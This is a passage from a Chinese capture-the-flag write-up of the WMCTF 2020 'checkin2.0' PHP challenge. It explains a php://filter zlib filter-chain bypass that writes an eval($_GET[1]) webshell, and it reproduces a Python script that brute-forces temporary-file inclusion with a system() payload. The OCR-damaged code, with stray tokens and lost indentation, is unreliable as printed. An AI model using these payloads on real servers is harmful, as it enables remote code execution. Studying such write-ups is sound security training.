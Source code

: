 WMCTF 2020 checkin2.0

```
<?php
2 //PHP 7.0.33 Apache/2.4.25
3 error_reporting(0);
4 $sandbox = '/var/www/html/' . md5($_SERVER['HTTP_X_REAL_IP']);
5 @mkdir($sandbox);
6 @chdir($sandbox);
7 highlight_file(__FILE__);
8 if(isset($_GET['content'])) {
9      $content = $_GET['content'];
10     if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
11         die('hacker');
12     if(file_exists($content))
13         require_once($content);
14         echo $content;
15 file_put_contents($content,'<?php exit();'.$content);
16 }
```

源代码直接给出，代码审计file_put_contents+require_once，我们尝试用file_put_contents写入文件然后用require_once包含然后拿到权限或代码执行。

如果没有明面上的过滤和后台的对url编码的过滤，那么会比较简单，但这里有过滤

一共有三天思路

1.php 7.0.33临时文件包含然后爆破出保存的临时文件，最后getshell

2.伪协议是会进行一次urldecode，利用二次编码绕过（没实现出来）

3.zlib的压缩加解压绕过中间过程的过滤。

`php://filter/zlib.deflate|string.tolower|zlib.inflate|?>/resource=aaa.php`

直接摆出payload，利用php中的过滤器（题目中的过滤就是伪协议里面的过滤）

我们来尝试进行一下分析。

content=`php://filter/zlib.deflate|string.tolower|zlib.inflate|?>/resource=aaa.php`

首先通过过滤。

file不存在开始写文件

文件名称为aaa.php(伪协议),文件内容为<?php exit();php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php

eval($_GET[1]);?>/resource=Cyc1e.php

在对它进行包含的时候实际会执行两端php代码<?php exit();php://filter/zlib.deflate|string.tolower|zlib.inflate|?>

和<?php eval($_GET[1]);?>再输出一小段 /resource=Cyc1e.php（没有进入php执行的代码块。）相当于对最后的文件做绕过。

最后传参1即可进行代码执行。

官方wp临时文件包含的脚本：

```
1 import requests
2 import string
3 import itertools
4
5 charset = string.digits + string.letters
6
7 host = "web_checkin2.wmctf.wetolink.com"
8 port = 80
9 base_url = "http://%s:%d" % (host, port)webweb
10
11
12 def upload_file_to_include(url, file_content):
13 files = {'file': ('evil.jpg', file_content, 'image/jpeg')}
14 try:
15 response = requests.post(url, files=files)
16 except Exception as e:
17 print e
18
19 def generate_tmp_files():
20 file_content = '<?php system("xxxxxxxx");?>'
phpinfo_url = "%s/?
content=php://filter/write=string.strip_tags/resource=Cyc1e.php" % (
21
22 base_url)
23 print phpinfo_url
24 length = 6
25 times = len(charset) ** (length / 2)
26 for i in xrange(times):
27 print "[+] %d / %d" % (i, times)
28 upload_file_to_include(phpinfo_url, file_content)
29
30 if __name__ == "__main__":
31 generate_tmp_files()

```

https://cyc1e183.github.io/2020/04/03/%E5%85%B3%E4%BA%8Efile_put_contents%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%B5%8B%E8%AF%95/



https://www.leavesongs.com/PENETRATION/php-filter-magic.html

放上一篇文章。

